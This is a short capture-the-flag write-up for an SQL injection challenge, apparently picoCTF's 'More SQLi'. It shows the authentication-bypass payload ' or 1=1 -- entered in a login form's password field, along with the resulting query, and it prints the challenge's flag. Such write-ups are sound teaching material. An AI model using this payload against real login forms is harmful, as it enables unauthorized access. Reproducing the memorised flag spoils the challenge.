 # More SQLi
Can you find the flag on this website.

## Solution
The website gives us a login page. Typing in some credentials will reveal the following output:
```
sername: test
password: test
SQL query: SELECT id FROM users WHERE password = 'test' AND username = 'test'
```

The title of the challenge gives tells us to use SQL injection. We hopefully can manipulate the shown SQLcall we the password field. Using `' or 1=1 --` should create the following statement:
```
SQL query: SELECT id FROM users WHERE password = '' or 1=1 -- ' AND username = 'test'
```

It logs us successfully in and shows a search field for an 'Office'. Several input doesnt reveal something interesting. SQLi may not work here.

If we check our precedure with ZAP, we find a redirection after the login. Here we can find our flag
```
<pre>username: test
password: ' or 1=1 -- 
SQL query: SELECT id FROM users WHERE password = '' or 1=1 -- ' AND username = 'test'
</pre><h1>Logged in!.</h1><p>Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}</p>
[...]
```

## Further reading
https://portswigger.net/web-security/sql-injection
